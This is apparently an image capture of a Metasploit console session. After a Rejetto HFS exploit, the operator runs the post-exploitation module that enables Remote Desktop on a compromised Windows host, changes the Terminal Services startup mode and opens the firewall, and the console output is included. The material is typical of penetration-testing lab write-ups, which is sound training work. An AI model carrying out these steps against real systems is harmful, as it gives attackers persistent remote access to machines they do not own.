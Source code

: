 
```
msf5 exploit(windows/http/rejetto_hfs_exec) > use post/windows/manage/enable_rdp
msf5 post(windows/manage/enable_rdp) > show options

Module options (post/windows/manage/enable_rdp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENABLE    true             no        Enable the RDP Service and Firewall Exception.
   FORWARD   false            no        Forward remote port 3389 to local Port.
   LPORT     3389             no        Local port to forward remote connection.
   PASSWORD                   no        Password for the user created.
   SESSION                    yes       The session to run this module on.
   USERNAME                   no        The username of the user to create.

msf5 post(windows/manage/enable_rdp) > set SESSION 1
SESSION => 1
msf5 post(windows/manage/enable_rdp) > run

[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[*] 	Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20230212195354_default_10.0.24.125_host.windows.cle_988922.txt
[*] Post module execution completed
```